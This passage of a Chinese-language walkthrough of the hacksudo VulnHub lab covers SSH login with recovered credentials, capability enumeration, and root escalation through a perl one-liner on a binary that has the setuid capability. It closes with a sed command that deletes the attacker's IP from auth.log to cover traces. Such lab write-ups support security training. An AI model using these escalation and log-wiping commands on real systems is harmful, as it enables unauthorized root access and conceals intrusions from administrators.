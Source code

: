 查看当前系统的几个用户

![](D:\stu\vulnhub\hacksudo靶场\pic-PC\29.jpg)

# 提权

## 提权至alfauser

测试使用获取的用户名密码进行ssh登录，用户名`proxima`，密码`alfacentauri123`

![](D:\stu\vulnhub\hacksudo靶场\pic-PC\30.jpg)

查看当前目录，再获取一个flag

![](D:\stu\vulnhub\hacksudo靶场\pic-PC\31.jpg)

查看当前目录下的所有文件，发现`bash_history`有记录，查看

![](D:\stu\vulnhub\hacksudo靶场\pic-PC\33.jpg)

跟着这个记录查看，说是`bash`过老，给出路径让更新

![](D:\stu\vulnhub\hacksudo靶场\pic-PC\34.jpg)

## 提权至root

使用`find`再寻找一些信息，发现`capacilities`

```shell
find / -type f -executable 2>/dev/null | xargs getcap -r 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-PC\35.jpg)

查看网站后获取用法

![](D:\stu\vulnhub\hacksudo靶场\pic-PC\36.jpg)

```shell
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

使用命令，提权成功

![](D:\stu\vulnhub\hacksudo靶场\pic-PC\37.jpg)



# 清除痕迹

使用`sed`可以筛选自己的IP进行删除日志，这里仅使用一次，为了省事，后面直接置为空

```shell
sed -i "/192.168.1.16/d" auth.log
```
